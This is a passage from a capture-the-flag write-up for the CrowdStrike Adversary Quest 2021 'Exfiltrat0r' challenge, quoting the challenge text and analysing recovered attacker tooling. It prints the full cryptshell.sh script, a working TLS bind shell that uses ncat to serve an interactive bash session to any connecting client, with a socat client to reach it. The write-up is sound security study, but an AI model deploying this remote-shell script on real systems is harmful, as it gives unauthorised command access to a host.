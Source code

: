 # Crowdstrike Adversary Quest 2021 / Protective Penguin / #4 Exfiltrat0r

## Challenge Description
Additional analysis of the victim network allowed us to recover some PROTECTIVE PENGUIN tooling that appears to provide remote shell and data exfiltration capabilities. While we were able to capture some network traffic of these tools in action, all communications are encrypted. We have wrapped all relevant information into a TAR archive.
Are you able to identify any weaknesses that would allow us to recover the encryption key and figure out what data was exfiltrated?

## Approach
- Analyze Evidence Files *cryptshell.sh* and *exfil.py*
- Analyze *trace.pcapng*
- Experiment with cryptshell.sh and exfil.py
- Identify side channel information leak
- Decrypt transmitted files

### Code of *cryptshell.sh*
```bash
#!/bin/sh

listen() {
    exec ncat -lvk4 $1 $2 --ssl -c 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"'
}

connect() {
    exec socat -,raw,echo=0 SSL:$1:$2,verify=0
    #exec socat - SSL:$1:$2,verify=0
}

if [ $# -eq 3 ] && [ $1 = "listen" ] ; then
    listen $2 $3
fi

if [ $# -eq 3 ] && [ $1 = "connect" ] ; then
    connect $2 $3
fi
```

### Analysis of *cryptshell.sh*
Used with command line argumentis *listen* *ip* and *port*, the script starts a TLS server via *ncat* that yields a remote shell when connected to.
used with arguments *connect* *ip* *port*, the script acts as a TLS client using *socat* to connect to the server at *ip* *port*.

Question: Why is there a commented line that is an alternative *socat* command, missing the options *raw* and *echo=0*?
This could be a breadcrumb for later.
